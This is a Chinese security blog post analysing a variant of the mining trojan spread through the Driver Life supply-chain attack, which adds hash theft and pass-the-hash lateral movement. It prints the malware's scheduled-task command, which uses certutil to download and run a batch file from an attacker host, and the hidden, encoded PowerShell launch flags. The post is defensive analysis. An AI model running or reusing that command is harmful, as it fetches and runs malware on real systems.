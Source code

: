 ```yaml
---
layout: post
title:  "驱动人生供应链木马攻击2019.1.30变种木马分析"
date:   2019-02-23
categories: 应急响应
permalink: /archivers/2019-02-23/1
description: "360安全大脑监测到通过”驱动人生”供应链攻击传播的挖矿木马在1月30日下午4时左右再次更新……"
---
```


360安全大脑监测到通过”驱动人生”供应链攻击传播的挖矿木马在1月30日下午4时左右再次更新……


## 0x00 事件背景

360安全大脑监测到通过"驱动人生"供应链攻击传播的挖矿木马在1月30日下午4时左右再次更新。此次更新中，木马在此前抓取系统帐户密码的基础上增加了抓取密码hash值的功能，并试图通过pass the hash攻击进行横向渗透，使得该木马的传播能力进一步加强，即使是有高强度口令的机器也有可能被攻陷。

pass the hash也称作哈希传递攻击，攻击者可以直接通过密码的哈希值访问远程主机或服务，而不用提供明文密码。攻击者使用pass the hash技术尝试在系统登录密码非弱口令并且无法抓取登录密码的情况下进行横向攻击，增加攻击成功率。

## 0x01 分析研讨

由于木马是样本都是不落地的方式，核心技术是通过定时计划任务执行powershell代码达到持续控制的目的，因此最先分析powershell代码，了解它做了哪些动作，指定查杀手段。



PS:样本代码过长，遂使用图片截图

## 0x02 分析过程

### 解密第一层

病毒样本：

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x00.png)

第一个动作，创建一个名为`Certificate`的任务计划，在七点开始，每隔一小时执行一次以下命令：

```

cmd.exe /c (cd %temp%&certutil -urlcache -split -f http://cert.beahh.com/cert.php?ver1=%COMPUTERNAME% v.dat>nul&expand -r v.dat>nul&v.bat>nul&del v.dat v.bat>nul)

```

由于目前`cert.beahh.com`已经无法访问，所以进行下一个powershell分析环节。

首先，`powershell -nop -w hidden -ep bypass -e `后接着就是base64编码的powershell代码，并且以Bypass作为当前执行策略。

Windows中的powershell执行策略：

```
PS C:\Users\Rvn0xsy> Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine          Bypass
```
